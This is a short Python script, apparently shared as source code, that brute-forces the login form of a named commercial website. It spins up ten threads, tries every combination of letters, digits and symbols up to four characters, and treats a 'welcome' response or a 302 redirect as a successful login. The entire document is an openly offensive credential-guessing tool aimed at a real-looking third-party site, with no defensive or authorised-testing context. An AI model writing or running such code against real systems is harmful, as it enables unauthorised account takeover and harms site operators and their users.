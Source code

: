 import requests
import itertools
import string
import threading
from queue import Queue
import time

# Configuration
login_url = 'https://hornblasters.com/login'
username = 'your_username'
characters = string.ascii_letters + string.digits + "!@#$%^&*()"
max_length = 4  # Set this to the maximum password length you want to test
num_threads = 10  # Number of threads to use

# Generate passwords
def generate_passwords(characters, length):
    return (''.join(candidate)
            for candidate in itertools.product(characters, repeat=length))

# Worker function for each thread
def worker(password_queue):
    while not password_queue.empty():
        password = password_queue.get()
        print(f"[INFO] Trying password: {password}")
        payload = {'username': username, 'password': password}
        try:
            response = requests.post(login_url, data=payload)
            # Check for successful login conditions
            if "welcome" in response.text.lower() or response.status_code == 302:
                print(f"[+] Successful login with password: {password}")
                password_queue.queue.clear()  # Clear remaining passwords
                break
            else:
                print(f"[-] Failed login with password: {password}")
        except requests.RequestException as e:
            print(f"[ERROR] Request failed: {e}")
        finally:
            password_queue.task_done()
        # Sleep for a short time to simulate some delay and reduce server load
        time.sleep(0.1)

# Create a queue of passwords
password_queue = Queue()

# Generate and enqueue passwords
for length in range(1, max_length + 1):
    for password in generate_passwords(characters, length):
        password_queue.put(password)

print(f"[INFO] Generated {password_queue.qsize()} passwords")

# Create and start threads
threads = []
for i in range(num_threads):
    thread = threading.Thread(target=worker, args=(password_queue,))
    thread.start()
    threads.append(thread)
    print(f"[INFO] Started thread {i + 1}")

# Wait for all threads to complete
for thread in threads:
    thread.join()

print("[INFO] Brute force attack completed.")
